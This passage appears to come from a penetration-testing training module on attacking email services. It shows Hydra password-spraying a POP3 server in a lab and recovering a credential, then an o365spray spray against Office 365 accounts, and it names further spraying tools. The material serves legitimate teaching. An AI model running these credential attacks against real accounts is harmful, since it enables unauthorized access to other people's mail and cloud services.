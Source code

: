 ```shell-session
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```

***

### Password Attacks

We can use `Hydra` to perform a password spray or brute force against email services such as `SMTP`, `POP3`, or `IMAP4`. First, we need to get a username list and a password list and specify which service we want to attack. Let us see an example for `POP3`.

**Hydra - Password Attack**

Attacking Email Services

```shell-session
AIceBear@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to perform password spray using tools like `Hydra`, but these tools are usually blocked. We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta. Keep in mind that these tools need to be up-to-date because if the service provider changes something (which happens often), the tools may not work anymore. This is a perfect example of why we must understand what our tools are doing and have the know-how to modify them if they do not work properly for some reason.

**O365 Spray - Password Spraying**

Attacking Email Services

```shell-session
AIceBear@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31
```